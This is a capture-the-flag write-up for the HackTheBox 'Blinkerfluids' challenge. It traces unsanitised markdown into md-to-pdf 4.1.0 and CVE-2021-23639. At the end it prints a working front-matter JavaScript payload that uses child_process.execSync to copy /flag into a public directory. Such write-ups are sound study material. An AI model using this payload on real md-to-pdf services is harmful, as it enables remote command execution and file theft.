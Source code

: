 ```yaml
---
title:  "HTB CTF - Blinkerfluids writeup"
date:   2022-05-20 08:30:00
tags: ["ctf-writeup"]
author: "Alex Ward"
---
```


![](https://i.postimg.cc/8P3t2K8M/Pasted-image-20220515091447.png)

A fairly simple solve. The site doesn't have much functionality and
the only input is the ability to use markdown to create an invoice.

<!-- more -->

![](https://i.postimg.cc/pLFqRfx7/Pasted-image-20220515091519.png)

Even though the generated invoice weren't viewable in the app, viewing
the source code showed they were available under `/static/invoices/<uuid>.pdf`.

```
.
├── build-docker.sh
├── challenge
│   ├── database.js
│   ├── helpers
│   │   └── MDHelper.js
│   ├── index.js
│   ├── invoice.db
│   ├── package.json
│   ├── routes
│   │   └── index.js
│   ├── static
│   │   ├── css
│   │   │   ├── bootstrap.min.css
│   │   │   ├── easymde.min.css
│   │   │   └── main.css
│   │   ├── images
│   │   │   └── favicon.png
│   │   ├── invoices
│   │   │   └── <uuid>.pdf
│   │   └── js
│   │       ├── easymde.min.js
│   │       ├── jquery-3.6.0.min.js
│   │       └── main.js
│   └── views
│       └── index.html
├── config
│   └── supervisord.conf
├── Dockerfile
├── exploit.txt
└── flag.txt
```

The source shows that the markdown content is passed unsanitised to `makePDF`.

```js
router.post('/api/invoice/add', async (req, res) => {
    const { markdown_content } = req.body;

    if (markdown_content) {
        return MDHelper.makePDF(markdown_content)
            .then(id => {
```

`MDHelper.js` requires `md-to-pdf`, and the `package.json` reveals the
version to be `4.1.0`. A quick Google search later takes us to
[CVE-2021-23639](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880),
a vulnerability allowing Javascript to be run in the
[front matter](https://jekyllrb.com/docs/front-matter/) of the markdown.

```js
---js
(1+1;)
---
```

To get the flag I first tried `cat`ing the flag into the pdf, which didn't work.

Next, I spend some time faffing trying to get a reverse shell to work.

Finally, my brain woke up and I realised I could just `cat` the flag to a
readable directory (`./static/invoices/`).

```js
---js
((require("child_process")).execSync("cat /flag > ./static/invoices/flag.txt"))
---
```

